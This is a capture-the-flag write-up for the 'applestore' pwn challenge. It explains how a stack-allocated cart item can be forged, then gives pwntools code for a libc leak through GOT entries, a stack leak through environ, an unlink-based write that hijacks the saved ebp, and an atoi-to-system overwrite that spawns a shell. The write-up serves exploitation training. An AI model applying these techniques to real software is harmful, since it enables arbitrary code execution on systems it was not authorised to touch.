

# applestore
slopey | 12/25/2020

## Background
We are given a shopping service where we can add, remove, list, and checkout items in our shopping cart.
```
=== Menu ===
1: Apple Store
2: Add into your shopping cart
3: Remove from your shopping cart
4: List your shopping cart
5: Checkout
6: Exit
> 
```
The binary is 32 bit and has Partial RELRO. This means that the GOT table is writeable.
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```
The add, remove, and list pattern seems to imply that this challenge is probably heap related, but as we will later see, this challenge has nothing to do with the heap, as there isn't even a call to `free`.

## Reversing
Most of the functions in the binary are very straightforward. Symbol names are given, which is very helpful. Here are some notable functions:

### create


The ghidra decompilation is very messing but looking at the assembly we can figure out that items in the shopping cart are stored in a struct that I refer to as `item`. The struct looks roughly like this:

Type   | Variable  | Offset
-------|-----------|-----
char * | Name      | 0
int    | Price     | 4
item * | Next item | 8
item * | Prev item | 12

Items are stored in a doubly linked list. The head is a global item type variable called `myCart`.

### cart


The cart function prints out all the items in the cart and then returns the total. Note that the cart function reads in 0x15 bytes, way more than is needed. This will be useful later. Also, the cart function uses the `my_read` function, which is simply a wrapper for `read` which replaces the last newline character with a null byte. This means that we can use null bytes in our input.

### checkout


The checkout function calls the cart function and prints the total amount. Interestingly, if the price of the cart is $7174, another item gets added to the cart. As we will see later, this is the main vulnerability in the program.

### delete


The delete function performs an unlink on the item to be deleted. Note that deleted items are never freed, so this rules out any possibility of a UAF or double free bug. The main logic of the code is in the middle, where this operation happens:
```
next_item = item->fd
prev_item = item->bd
if prev_item is not null:
    prev_item->fd = next_item
if next_item is not null:
    next_item->bd = prev_item
```

## Vulnerability
The bug exists in the `checkout` function. The main observation is that the new iPhone 8 struct is not created using the `create` function. Rather, it is manually allocated on the stack. This means that when we exit this function's stack frame, the value in the struct changes. 

Local variables are allocated at an offset to `ebp`. This is because by definition, local variables are only supposed to be able to be accessed inside the function where the local variable is declared. This becomes problematic when the `checkout` function returns, since `ebp` changes to the previous stack frame's `ebp`.

This means that functions that are called by `checkout`'s caller, such as `delete`, `add`, and `cart`'s local variables will change the value of the iPhone 8 item.

## Programming
Before we can exploit this vulnerability, we need to first pass the check for the price of the cart. This is a standard "spare coin change" problem. Here's a quick script I wrote in Python to find the answer:
```py
transitions = [499, 399, 299, 199]
dp = [-1] * 0x1c08

def search(curr):
    if dp[curr] != -1:
        return True

    for trans in transitions:
        if curr - trans == 0:
            dp[curr] = trans
            return True
        if curr - trans > 0:
            if search(curr - trans):
                dp[curr] = trans
                return True

    return False


def backtrack(val):
    while val != 0:
        print(dp[val])
        val = val - dp[val]

num = 0x1c06
search(num)
print(backtrack(num))
```
The basic idea is that we recursively iterate through all the possible items we can buy, and we use a DP array to backtrack and find the phones we bought after the search is complete.

## Read primitive
Our first step is to get a libc leak. Let's take a look at the assembly for the `checkout` function first to find the offsets we need to target.
```asm
   0x08048b70 <+53>:	mov    DWORD PTR [esp+0x8],0x8049013
   0x08048b78 <+61>:	mov    DWORD PTR [esp+0x4],0x8048ebe
   0x08048b80 <+69>:	lea    eax,[ebp-0x20]
   0x08048b83 <+72>:	mov    DWORD PTR [esp],eax
   0x08048b86 <+75>:	call   0x8048550 <asprintf@plt>
   0x08048b8b <+80>:	mov    DWORD PTR [ebp-0x1c],0x1
   0x08048b92 <+87>:	lea    eax,[ebp-0x20]
   0x08048b95 <+90>:	mov    DWORD PTR [esp],eax
   0x08048b98 <+93>:	call   0x8048835 <insert>
```
This code snippet from the `checkout` function copies the string "iPhone 8" into the name field and copies the price, 1, into the price field, and then inserts the item into the linked list. Here is the important part: the name field is stored at `ebp-0x20`, the price field is stored at `ebp-0x1c`, so the fd pointer must be at `ebp-0x18` and the bd pointer must be at `ebp-0x14`.

With this knowledge, we can construct a read primitive. The `cart` function is the easiest target. Let's take a look at the assembly.
```asm
   0x08048aab <+58>:    mov    DWORD PTR [esp+0x4],0x15
   0x08048ab3 <+66>:	lea    eax,[ebp-0x22]
   0x08048ab6 <+69>:	mov    DWORD PTR [esp],eax
   0x08048ab9 <+72>:	call   0x8048799 <my_read>
   0x08048abe <+77>:	movzx  eax,BYTE PTR [ebp-0x22]
   0x08048ac2 <+81>:	cmp    al,0x79
   0x08048ac4 <+83>:	jne    0x8048b20 <cart+175>
```
This is the code which checks to see if the user inputted a "y". However, we can see that the my_read function reads into a buffer located at ebp-0x22! Since the function reads in 0x15 bytes, we can use this to modify the iPhone 8 item and use it to leak GOT entries. This is because the printf that is used later prints the name field in the struct. Since we can modify the iPhone 8 struct, we can change the name field to a GOT pointer and use it to get a LIBC leak. Here is the relevant code in my exploit:
```py
payload = b""
payload += p32(exe.got["puts"])
payload += p32(exe.got["puts"])
payload += p32(0)
payload += p32(0)

puts_leak = u32(leak(payload))
log.info("Puts leaked at {}".format(hex(puts_leak)))
libc.address = puts_leak - libc.symbols["puts"]
```
Here, I construct a fake iPhone 8 struct with the GOT entry for puts as the name, price, and set its fd and bd pointer to null. Now that we have our libc leak, let's try to get a write primitive.

## Write primitive
Although this is not a heap problem, we can take inspiration from the unsafe unlink and target the `delete` function. Since we can forge an item struct, we can also modify its fd and bd pointers to get a write primitive. Consider the following logic of the `delete` function:
```
item->bd->fd = item->fd;
item->fd->bd = item->bd;
```
Given this, we can use the second line in this code snippet to write `bd` at `fd`, giving us a write-what-where gadget. However, there is a big exception, which is defined in the first line: both `bd` and `fd` must be writeable. The first line tries to write the forward pointer of item 8 bytes after the address referenced to by `item->bd`. Therefore, `bd+0x8` must be writeable. This makes the challenge significantly more difficult, since a simple GOT overwrite of `atoi` to `system` won't work, since we don't have write access to libc, only read access.

I was stuck here for a very long time and drew inspiration from [this writeup](https://blog.srikavin.me/posts/pwnable-tw-applestore/). I'll do my best to re-explain it here. The basic idea is that we will write `atoi` to a stack address instead. First, take a look at this code snippet inside `handler`, which is `delete`'s callee.  
```
   0x08048bfd <+42>:	mov    DWORD PTR [esp+0x4],0x15
   0x08048c05 <+50>:	lea    eax,[ebp-0x22]
   0x08048c08 <+53>:	mov    DWORD PTR [esp],eax
   0x08048c0b <+56>:	call   0x8048799 <my_read>
   0x08048c10 <+61>:	lea    eax,[ebp-0x22]
   0x08048c13 <+64>:	mov    DWORD PTR [esp],eax
   0x08048c16 <+67>:	call   0x8048560 <atoi@plt>
```
The idea comes from the fact that our goal is to overwrite atoi's GOT entry with system's address. What if we overwrote `ebp` instead? Essentially, what if we set `ebp` to be the address of `atoi` minus 0x22? This would mean that `ebp-0x22` is the address of `atoi`, which would mean that `my_read` would write to `atoi`! Even more conveninently, my_read would read directly from stdin. So all we have to do is send the address of system to stdin, and provide `/bin/sh` as the input to `atoi`, which would be overwritten by `my_read` to `system`. However, there is a big problem here: we don't know the address of `ebp`. 

Luckily, we can use `libc` to leak stack addresses. This is because of a constant known as `environ`, which has the same value as `envp`. You can read about it [here](https://github.com/Naetw/CTF-pwn-tips#leak-stack-address). Since we know the base address of libc, we can calculate the address of `environ`, which gives us an address on the stack.

This is all we need. ALSR only randomizes the stack offset, meaning the distance between two variables on the stack will always be the same. So therefore, all we need to do is calculate the distance between `envp` and `ebp`. 

To do this, we must overwrite the saved `ebp` address in `delete`. Recall that when a function hits the `leave` instruction in assembly, the previous function's stack frame is restored by popping the last value on the stack into `rbp`. So we would need to target the value that is popped onto `rbp` with our write-what-where gadget. This can be done by simply going to gdb and setting a breakpoint on the `leave` instruction and subtracting `ebp`'s address from `environ`'s stack address.
```
gef➤  x/wx $ebp
0xff9afce8: 0x0804b062
gef➤  p (void **) environ
$1 = (void **) 0xff9afdf0
gef➤  p 0xff9afdf0 - 0xff9afce8
$2 = 0x108
```
The offset I get is 264. NOTE that this number is a little fuzzy. On the remote server, I had to use offset 260 to get my exploit working, and  different environments will likely have different offsets. Knowing this, we can construct our GOT overwrite. Here is the relevant code from my exploit:
```py
def www(what, where):
    r.recvuntil("> ")
    r.sendline("3")
    r.recvuntil("> ")
    payload = b""
    payload += b"27"
    payload += b"\x00" * 4
    payload += b"\x00" * 4
    payload += where
    payload += what
    r.sendline(payload)

# environ leak
payload = b""
payload += p32(libc.symbols["environ"])
payload += p32(libc.symbols["environ"])
payload += p32(0)
payload += p32(0)

stack_leak = u32(leak(payload))
log.info("Stack leak at {}".format(hex(stack_leak)))
ebp_addr = stack_leak - 264

# overwrite atoi with system addr
where = p32(ebp_addr - 12)
what = p32(exe.got["atoi"] + 0x22)
log.info("Writing {} at {}".format(hex(exe.got["atoi"] + 12), hex(ebp_addr)))
www(what, where)
r.recvuntil("> ")

# pwn
payload = p32(libc.symbols["system"])
payload += b";/bin/sh"
r.sendline(payload)

r.interactive()
```
Note that I subtract 12 from `ebp_addr` because the `bd` pointer is at a 12 byte offset. Also, I prepend ";" to /bin/sh because my_read also reads in the address of system. Since those four bytes obviously do nothing, we have to add an apostrophe so bash interprets them as two separate commands. With this, we get our shell! The full exploit code can be found [here](solve.py). 
